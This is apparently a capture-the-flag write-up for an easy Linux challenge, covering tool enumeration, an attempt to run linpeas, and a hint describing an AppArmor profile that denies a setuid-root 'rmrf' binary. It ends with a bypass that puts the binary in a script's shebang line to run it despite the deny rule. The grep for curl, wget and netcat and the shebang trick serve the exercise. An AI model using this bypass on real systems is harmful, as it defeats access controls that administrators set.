








## Gamearmor (Пиковая драма)

**Category**: easy, linux, security \
**Author**: Lex (@b1n4r9), SPbCTF \

#### Description:
Учёные создали суперкомпьютер, а младший научный сотрудник решил разогнать его до пиковых значений в игре и похвастаться скриншотами на форуме. Всё получилось, но потом сработал механизм защиты — сотрудник не может удалить игру и замести следы. Помогите ему.

```
ssh junior@t-gamearmor-dfr4zybw.spbctf.net
```

Пароль: ***

### Solution

Look for common tools:

```
junior@supercomputer:~$ which $(ls /bin /usr/bin/ /sbin /usr/sbin | grep '^vi$\|vim\|curl\|wget\|^nc$\|netcat\|python\|perl' | sort | uniq)

> /usr/bin/perl
> /usr/bin/perl5.34.0
```



We don't have curl, wget, python, nc that help downlod [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), then create file use cat with end-of-file. Copy and paste code in terminal and send Ctrl+D:



Then run linpeas.sh:
```
junior@supercomputer:~$ chmod +x linpeas.sh
junior@supercomputer:~$ ./linpeas.sh

>Starting linpeas. Caching Writable Folders...
>./linpeas.sh: 469: peass{VARIABLES}: not found
>./linpeas.sh: 877: Syntax error: "(" unexpected (expecting "fi")
```


Ok, this task will return an error when running linpeas.sh.

Try manual check enumeration: os information, crontab, users and groups, sudoers, services, suid/guid perm and other checks.

When find an interesting file with a hint /home/senior/notes.txt:







File contents /home/senior/notes.txt:

```
Еженедельное обновление состояния системы и последние изменения в конфигурации сервера

В связи с последними обновлениями на нашем суперкомпьютерном кластере, заслуживают внимания следующие моменты:

1. Хранение и мониторинг логов: Система настроена на постоянное логирование всех операций с использованием суперкомпьютерных мощностей. Это включает в себя регистрацию всех задач, использованных ресурсов, вычислительной мощности в терафлопсах и других ключевых параметров работы. Ознакомится с логами можно в /var/log/supercomputer.

2. Утилита для чистки логов: Введена специальная утилита rmrf, предназначенная для безопасного удаления устаревших логов. Эта утилита позволяет освободить значительное пространство на диске, что крайне важно для поддержания высокой производительности системы. Особое внимание уделено безопасности при её использовании: утилита запускается строго под контролем системных администраторов.

3. Улучшения безопасности: Последнее обновление системы включало ряд мероприятий по усилению безопасности, в том числе настройку и активацию AppArmor. Добавлено следующее правило, ограничивающая применение специальной утилиты rmrf:

# app-deny
#include <tunables/global>

profile pp-deny flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>

  file,
  capability,
  network,
  unix,
  signal,
  /** ix,

  deny /usr/bin/rmrf x,
}


Заключение:

Текущие обновления улучшили как производительность, так и безопасность нашей суперкомпьютерной инфраструктуры. Непрерывный мониторинг и адаптация новых технологий безопасности позволит нам поддерживать высокий уровень надёжности и эффективности в работе с данными и вычислительными ресурсами. Прошу всех пользователей ознакомиться с обновлениями и следовать новым процедурам безопасности при работе на сервере.

```

Try run /usr/bin/rmrf:

```
junior@supercomputer:~$ ls -la /usr/bin/rmrf
-rwsr-sr-x 1 root root 16760 Apr 20 09:23 /usr/bin/rmrf
junior@supercomputer:~$ 
junior@supercomputer:~$ 
junior@supercomputer:~$ /usr/bin/rmrf
bash: /usr/bin/rmrf: Permission denied

```



AppArmor rules app-deny /usr/bin/rmrf from hint. Try bypass AppArmor using bug when AppArmor don't check the rules for the interpreter with shebang.

```
junior@supercomputer:~$ cat > exploit.sh 
#!/usr/bin/rmrf
junior@supercomputer:~$ chmod +x exploit.sh 
junior@supercomputer:~$ 
junior@supercomputer:~$ ./exploit.sh
>...
>tctf{eVen_APp_ARMOr_c4Nt_PReVEnT_5Illy_usEr_FroM_rMrf}
```
